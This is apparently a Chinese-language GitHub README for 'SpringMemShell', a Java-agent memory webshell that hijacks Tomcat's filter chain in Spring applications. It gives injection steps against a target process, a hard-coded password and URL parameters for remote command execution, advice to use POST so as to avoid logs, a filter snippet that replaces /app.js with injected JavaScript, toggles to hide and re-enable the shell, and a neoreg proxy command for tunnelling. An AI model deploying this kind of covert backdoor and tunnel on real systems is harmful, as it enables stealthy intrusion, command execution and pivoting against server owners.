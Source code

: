 # SpringMemShell



## 原理

和`tomcat`内存马的原理类似，也是劫持了一个`filter`，这里修改的是`org.apache.catalina.core.ApplicationFilterChain$internalDoFilter` <br/>





## 使用步骤

>   至少应该先访问一次，确保`org.apache.catalina.core.ApplicationFilterChain`被加载

1.  将三个jar包放入靶机中，这里使用了`vulhub/spring/CVE-2018-1273`作为例子

    ![image-20210317142736836](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317142736836-20210409143828374.png)

2.  找到目标进程的pid（在docker中的pid通常为1）

    

3.  执行`java -jar javaAgent.jar [pid] "./mem.jar"`命令

    ![image-20210317143338934](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143338934-20210409143829176.png)

4.  注入成功，访问任意路由（不存在的也行） 加上参数`?password=stdout&model=exec&cmd=[command]`即可

    <font color='red'>get请求容易被日志记录下来，采用post请求相对来说不容易被发现</font>

    查看一下注入之后的`/proc/self/maps`

    ![image-20210317143739861](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143739861-20210409143830039.png)

    可以看到两个jar包进入了内存



## 效果

注入内存马之前

![image-20210317143205942](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143205942-20210409143831820.png)



注入之后

![image-20210317143804052](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143804052-20210409143833243.png)



由于是在`filter`层处理了用户请求，即使路由没有定义，也没有关系。



## 新功能+1

应hzgg的要求，加入新功能：静态页面劫持

本想着新建一条路由（在`Controller`层）去做，但是由于Spring的MVC结构，在没有`templates`的情况下不能直接渲染页面。而后听从建议，在`Filter`层就做好。

关键源代码如下

```java
String uri = request.getRequestURI();
if (uri.equals("/app.js")) {
    result += com.shiroha.springMem.SpringMemModels.readSource("1.js");
    response.getWriter().write(result);
    return;
}
```

当访问目标的`/app.js`的时候，在`filter`层就会被响应，返回`1.js`的内容。

```javascript
// 1.js
alert(1);
```



示例效果：

![image-20210323160138849](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210323160138849-20210409143833905.png)





## 新功能+2

需求增加：“既然你加载了这个agent，那要把卸载也做好啊”。

由于Java agent是注入到内存，并且修改了class，完全移除只有重启jar包这个方法（当然，也可能是我才疏学浅）。因此我想的解决方案是还原改写的方法。但是由于`javassist`编译的特殊性，完全还原是太不能做得到的。所以我换了个注入的函数`doFilter`，这个函数内容简单，还原方便，简直是不二选择。



效果演示

注入内存马之后：

![image-20210324181759730](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181759730-20210409143835147.png)

使用`?password=stdout&model=exit`，暂时解除修改的数据。

![image-20210324181912659](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181912659-20210409143835558.png)

再次执行命令就会失败：

![image-20210324181940085](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181940085-20210409143835909.png)

使用`?restart=restart`再次启用修改：

![image-20210324182015489](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324182015489-20210409143836215.png)

再次可以执行命令：

![image-20210324182126043](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324182126043-20210409143836484.png)

<font color='red'>这期间不会影响到业务。</font>



## 新功能+3

增加了regeorg 代理，由于最新的regeorg使用了变形base64加密，所有的字段名和值都发生了变化，导致换密码很麻烦——需要把tunnel.jsp的代码分别复制到B64类和SpringProxy类中，相信聪明的你一定会改。

我的密码是stdout。

之后可能会去研究一下变种的过程，搞一个自动一点的出来。

使用`python3 neoreg.py --url "http://target/?password=stdout&model=proxy" -k "stdout"`即可。

效果示例：

![image-20210412134149838](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210412134149838.png)

![image-20210412141215288](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210412141215288.png)

